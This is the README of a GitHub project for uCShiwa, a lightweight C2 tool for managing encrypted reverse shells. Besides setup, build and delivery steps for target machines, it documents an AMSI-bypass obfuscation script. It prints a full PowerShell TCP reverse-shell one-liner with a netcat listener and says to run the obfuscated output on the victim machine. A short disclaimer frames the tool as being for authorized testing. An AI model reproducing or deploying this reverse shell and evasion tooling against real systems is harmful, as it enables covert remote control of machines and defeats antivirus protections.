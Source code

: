 # uCShiwa

.NET Core light C2 Unit:

- Manage multiple revershells
- Use TLS and command obfuscation
- Keep It Simple, Stupid

This tool is presented for educational purpose.
It was used in real security tests and in advenced penetration testing labs (2020-2022).

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## Help & Documentation

Execute it without any options to print help

## Server

```shell
Ucshiwa.exe <port> <certificate.pfx> <passwd>

<0> Server mode
<0> Port: 4444
Cipher: Aes256
Hash: Sha384
Protocol: Tls12

<0> 10.10.10.10:1234 > (Your command)
```

## ReverseShell

```shell
Ucshiwa.exe <ip> <port>

<0> Reverse Shell mode
<0> Ip: 10.10.10.10
<0> Port: 4444
CN:CN=...
ExpirDate:...
PubKey:....
```

## Mutli-Client

Several revershells can be used on the same server (IP:port): 

- Clients connect periodically
- The first connected, the first tasked.
- The `exit` command allows you to change session
- The `bg` command allows you to run command in background and change session

## Encrytion

TLS 1.2

Consider the default `cert.pfx` file as compromised (password: ucshiwa). A quick way to generate your own is the `New-SelfSignedCertificate`:

```powershell
New-SelfSignedCertificate -DnsName Ucshiwa.lan -CertStoreLocation Cert:\CurrentUser\My\  -KeyAlgorithm RSA -KeyLength 4096 -NotAfter $(Get-Date).AddYears(30)
certmgr.msc # export the generated certificate as password protected .pfx file 
```

## Obfuscation

This is the default behavior, feel free to adapt the source code:

- Powershell is embeded in windows/linux clients (many libs but no child process creation)
- On server side, put `Shellingan.ps1` in the same directory to automatically perform command obfuscation (AMSI bypass)

## Authentication

Certificate is manualy validated during the revershell connection

## Multi-Platform

- Windows: `dotnet publish --self-contained true`
- Linux: `dotnet publish -r linux-x64 --self-contained true`

## Delivery

Unzip it on the target machine with the `Expand-Archive` cmdlet

## To use Shellingan.ps1 as a standalone script for AMSI Bypass

### Import

```powershell
. .\shellingan.ps1
```

### Options

```console
-cmd: command obfuscation
-iex: add invoke-expression
-recurse: number of obfuscation loop
```

### Exemple

From your attack machine:
```console
nc64.exe -lnvp <port>
```


```powershell
Invoke-Shellingan -iex $true -cmd '$c=nEw-ObjeCt SYsTEm.nET.SOcKetS.tcpcLIENT((wRiTe-oUtpuT <ip>),<port>);$s=$c.gETsTrEaM();[BYtE[]]$b=0..65535|%{0};wHILe(($i=$s.rEAd($b,0,$b.LENgTh))-NE0){$a=(NEw-oBJeCT -tYPenAME sYSteM.tEXT.aScIieNcOdInG).gETsTRIng($b,0,$i);$k=(iEX $a 2>&1|oUt-stRInG);$z=$k+(WrITe-OuTPut `>);$d=([teXT.eNcODiNg]::aSCii).gETByTEs($z);$s.wRiTE($d,0,$d.LEnGtH);$s.fLuSH()};$c.cLoSE()'
```

output:
```powershell
$186=255;$208=[SYStEM.TexT.ENCoDiNg];$102=$208::Utf8.gETByTeS('');$208::AsCii.GetString($(([bytE]55,86,80,97...
```
Execute the output on the victim machine to get your reverse shell

## Misc

this project contains also an exemple of how obfuscate Sharphound (BloodHound ingestor)

## Love uCShiwa ? 

Help me to keep uCShiwa free and open-source

* [Ethereum Donation](https://etherscan.io/address/0xcC424e30Ff6eEAb4E6B3A900c5446038F858b314)
* [buy me a coffee](https://www.buymeacoffee.com/taisensolutions)